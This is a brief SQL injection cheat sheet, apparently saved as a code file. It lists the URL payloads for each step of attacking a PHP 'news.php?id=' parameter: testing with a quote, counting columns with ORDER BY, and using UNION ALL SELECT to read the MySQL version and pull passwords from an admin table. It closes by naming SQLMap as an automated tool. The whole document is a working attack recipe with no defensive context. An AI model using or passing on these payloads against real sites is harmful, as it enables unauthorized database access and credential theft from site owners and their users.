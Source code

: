 				Identifying SQL Injection
-- end of url put a ' (quote)							http://ip/news.php?id=5'
-- error means website is vulnerable

				Finding Number of columns
-- Increment until you get a error 				http://ip/news.php?id=5 order by 1/*

				Checking Union Fuction
-- union all Number of columns found
-- http://ip/news.php?id=5 union all select 1,2,3/*

				Check MYSQL version
-- http://$ip/news.php?id=5 union all select 1,@@version,3/*

				Getting Column and Table Names
-- Table Names
-- http://ip/news.php?id=5 union all select 1,2,3 from admin/*
-- Column Names
-- http://ip/news.php?id=5 union all select 1,password,3 from admin/*

				SQLMap
-- Automatic SQL injector